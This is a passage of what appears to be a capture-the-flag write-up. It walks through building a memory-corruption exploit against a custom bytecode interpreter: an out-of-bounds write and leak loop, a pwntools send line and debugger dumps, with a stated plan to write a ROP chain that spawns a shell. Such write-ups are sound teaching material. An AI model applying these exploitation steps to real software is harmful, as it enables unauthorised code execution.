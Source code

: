 To resolve this, we want our loop to have the following properties:
- A loop that sends us the current byte value at the current cell, **before** we send the updated byte value. This allows us to preserve values in memory when needed, and also serves as an information leak primitive, while also keeping the out-of-bounds write primitive.
- A loop that doesn't care if it reads null or non-null bytes from user input. 
- A loop that allows us to break out of it when we want to.

Once we get such a loop, we can freely write anything, either by putting some "stage 2" bytecode that will be run after the loop, or just straight up proceed to writing a ROP chain to spawn a shell and get the flag. 

### Crafting the loop with desirable conditions

As much as I wanted to just dump the payload here, I will walk you through it with some explanation of what every part is for. You might think that I will have a good explanation for this part, but nope. I have a debugger written for you, so you can try to reverse-engineer my brain and figure out how I even got the payload for this part.

First we start with this:

```python
io.send(b'\xff\x00' * 0x2b)
```

This fills the memory, partially tampering with the first bytecode instruction, but it doesn't change program behaviour:

```
CODE:   0x00007ffe6e7ef2d8
  80: 00ff0001  inc     mp
  84: 00000004  getc    [mp]
  88: 000d0007  jz      0xb4
  8c: 00060007  jz      0x98
  90: 00000001  inc     mp
  94: 00040008  jnz     0x90
  98: 00000004  getc    [mp]    <- ip
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x83 -> 0x00
ip: 0x06 -> 00000004    getc    [mp]
```

As shown in the output, *mp* is now at 0x83, and cell 0x82 is 0xff (doesn't change anything)

```
  8c: 00060007  jz      0x98
  90: 00000001  inc     mp
  94: 00040008  jnz     0x90
  98: 00000004  getc    [mp]    <- ip
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
```

---